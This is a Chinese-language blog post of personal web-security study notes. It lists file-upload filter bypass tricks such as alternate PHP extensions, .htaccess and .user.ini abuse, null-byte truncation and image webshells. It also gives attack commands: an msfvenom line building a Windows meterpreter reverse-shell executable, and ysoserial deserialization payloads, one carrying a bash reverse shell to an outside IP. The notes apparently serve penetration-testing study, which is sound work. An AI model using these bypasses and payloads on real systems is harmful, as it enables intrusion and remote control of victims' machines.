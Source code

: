 ```yaml
---
layout: post
author: ᴢʜᴀɴɢ
title: "[笔记] Web安全"
date: 2023-05-16
music-id: 
permalink: /archives/2023-05-16/1
description: "WebSec"
---
```


# Web安全笔记
## 上传文件
1. MIME-Type验证
2. 改后缀名php1、php2、phtml、php5
3. 先上传.htaccess 后上传图片
4. 先上传.user.ini 后上传图片
5. 大小写绕过
6. 后缀.php加空格绕过 or 加点绕过 or 加::$DATA绕过
7. 后缀.php加点号绕过拼接并绕过前面的两次过滤 x.php. .
8. 双写绕过 x.pphphp
9. 0x00截断 %00
10. 图片马+文件包含利用漏洞   include $file;     include.php?file=x.jpg即可shell
11. 图片马加二次渲染 找到二次渲染后不变的地方插入shell
12. 条件竞争 适合先上传再判断漏洞
13. 带有保存名称 可用%00解码后POST 或者 黑名单验证 upload-19.php/. 是文件夹形式/.
14. 数组绕过

## Msfvenom主要用来生成带后门的软件
### Java反序列化工具ysoserial
~~~
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.150.139 LPORT=5577 -b "\x00" -i 10 -f exe -o /var/www/html/test.exe


java -jar ysoserial.jar URLDNS "http://d5z0tw.ceye.io"  > h.bin
java -jar ysoserial.jar ysoserial.exploit.JRMPListener 123 ROME "bash -i >& /dev/tcp/110.120.119.110/80 0>&1" > h.bin

java -jar ysoserial.jar JRMPClient ROME "110.120.119.110:80" > h.bin
~~~